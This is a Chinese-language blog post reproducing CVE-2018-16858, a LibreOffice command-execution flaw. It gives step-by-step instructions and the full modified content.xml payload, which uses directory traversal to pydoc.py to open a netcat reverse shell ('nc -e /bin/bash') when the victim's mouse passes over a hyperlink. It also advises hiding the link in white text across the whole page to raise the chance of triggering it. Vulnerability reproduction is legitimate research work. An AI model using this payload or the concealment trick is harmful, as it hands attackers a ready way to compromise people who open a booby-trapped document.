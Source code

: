 ```yaml
---
title: libreoffice命令执行复现
tags:
  - CVE
  - libreoffice
categories:
  - 漏洞复现
copyright: true
abbrlink: cdf8e41e
date: 2019-07-13 16:19:25
---
```


![](https://s2.ax1x.com/2019/07/13/Z4drIs.jpg)
<!--more-->
### Start ###

打开Libreoffice writer新建个'word':

插入(Insert) => 超链接(Hyperlink) => 设置(图标)，添加个鼠标事件，保存为odt文档:

![](https://s2.ax1x.com/2019/07/13/Z4NnxS.png)

使用解压工具解压/查看odt文件，把`content.xml`拖出来,看下里面有什么内容。

![](https://s2.ax1x.com/2019/07/13/Z4NKKg.png)

可以看到这是类似一个加载本地的一个脚本然后使用python运行的。

```
<script:event-listener script:language="ooo:script" script:event-name="dom:mouseover" xlink:href="vnd.sun.star.script:pythonSamples|TableSample.py$createTable?language=Python&amp;location=share" xlink:type="simple"/>
```

作者文章中写到：Libreoffice自带有Python和预装部分脚本，还可以通过目录遍历访问(调用)其他脚本。

在`LibreOffice\program\python-core-3.5.5\lib\`中的`pydoc.py`通过参数cmd传递给`os.system()`执行，而且还没有做过滤。

![](https://s2.ax1x.com/2019/07/13/Z4Nm28.png)

So，通过修改`content.xml`内容重新压缩回odt文件，当打开odt文件鼠标碰到超链接是，就会触发反弹shell。

```
<script:event-listener script:language="ooo:script" script:event-name="dom:mouseover" xlink:href="vnd.sun.star.script:../../../program/python-core-3.5.5/lib/pydoc.py$tempfilepager(1, nc -e /bin/bash 127.0.0.1 12345)?language=Python&amp;location=share" xlink:type="simple"/>
```

![](https://s2.ax1x.com/2019/07/13/Z4Ne8f.png)

### END ###

为了增加触发率，可以设置超链接为白色并遍布整个页面

新版中，python鼠标事件好像已被移除

**Reference**

https://insert-script.blogspot.com/2019/02/libreoffice-cve-2018-16858-remote-code.html

https://testofpen.wordpress.com/2019/05/13/cve-2018-16858/